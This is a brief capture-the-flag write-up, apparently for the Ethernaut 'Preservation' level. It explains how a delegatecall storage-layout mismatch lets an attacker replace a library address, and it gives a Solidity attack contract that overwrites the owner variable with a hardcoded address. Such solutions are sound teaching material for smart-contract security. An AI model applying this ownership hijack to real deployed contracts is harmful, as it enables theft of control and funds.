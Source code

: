 # Level 16 - Preservation

- Library code is implemented wrong. All variables are not set in order.
- Instead of updating storedTime, it updates library1 address.
- Implement a malicious contract and pass its address as parameter (in decimal format)
- In malicious contract, update owner address.
- In second call, it will call malicious address and update owner.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract LibraryContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
        owner = 0x0F1E46657B33ac30257cb1B332EFB358240D951c;
    }
}

```